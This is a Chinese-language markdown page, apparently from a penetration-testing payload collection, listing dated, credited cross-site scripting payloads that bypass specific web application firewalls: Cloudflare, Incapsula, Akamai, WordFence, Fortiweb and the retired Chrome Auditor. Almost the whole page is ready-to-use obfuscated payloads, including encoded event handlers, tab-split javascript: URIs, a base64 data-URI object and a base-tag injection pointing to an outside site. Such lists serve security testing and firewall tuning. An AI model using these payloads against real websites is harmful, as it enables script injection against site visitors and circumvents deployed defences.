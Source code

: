 # 常见WAF绕过方法

> Web应用防火墙（WAF）通过检查进出流量的模式来过滤恶意内容。尽管它们非常复杂，但WAF常常难以跟上攻击者用来混淆和修改其有效负载以规避检测的各种方法。

## 概要

* [Cloudflare](#cloudflare)
* [Chrome Auditor](#chrome-auditor)
* [Incapsula WAF](#incapsula-waf)
* [Akamai WAF](#akamai-waf)
* [WordFence WAF](#wordfence-waf)
* [Fortiweb WAF](#fortiweb-waf)

## Cloudflare

* 2021年1月25日 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/onrandom=random onload=confirm(1)>
    <video onnull=null onmouseover=confirm(1)>
    ```

* 2020年4月21日 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/OnLoad="`${prompt``}`">
    ```

* 2019年8月22日 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/onload=%26nbsp;alert`bohdan`+
    ```

* 2019年6月5日 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    1'"><img/src/onerror=.1|alert``>
    ```

* 2019年6月3日 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg onload=prompt%26%230000000040document.domain)>
    <svg onload=prompt%26%23x000000028;document.domain)>
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    ```

* 2019年3月22日 - @RakeshMane10

    ```js
    <svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
    ```

* 2018年2月27日

    ```html
    <a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
    ```

## Chrome Auditor

注意：Chrome Auditor在最新版本的Chrome和Chromium浏览器中已被弃用和移除。

* 2018年8月9日

    ```javascript
    </script><svg><script>alert(1)-%26apos%3B
    ```

## Incapsula WAF

* 2019年5月11日 - [@daveysec](https://twitter.com/daveysec/status/1126999990658670593)

    ```js
    <svg onload\r\n=$.globalEval("al"+"ert()");>
    ```

* 2018年3月8日 - [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)

    ```javascript
    anythinglr00</script><script>alert(document.domain)</script>uxldz
    anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
    ```

* 2018年9月11日 - [@c0d3G33k](https://twitter.com/c0d3G33k)

    ```javascript
    <object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
    ```

## Akamai WAF

* 2018年6月18日 - [@zseano](https://twitter.com/zseano)

    ```javascript
    ?"></script><base%20c%3D=href%3Dhttps:\mysite>
    ```

* 2018年10月28日 - [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480)

    ```svg
    <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
    ```

## WordFence WAF

* 2018年9月12日 - [@brutelogic](https://twitter.com/brutelogic)

    ```html
    <a href=javas&#99;ript:alert(1)>
    ```

## Fortiweb WAF

* 2019年7月9日 - [@rezaduty](https://twitter.com/rezaduty)

    ```javascript
    \u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
    ```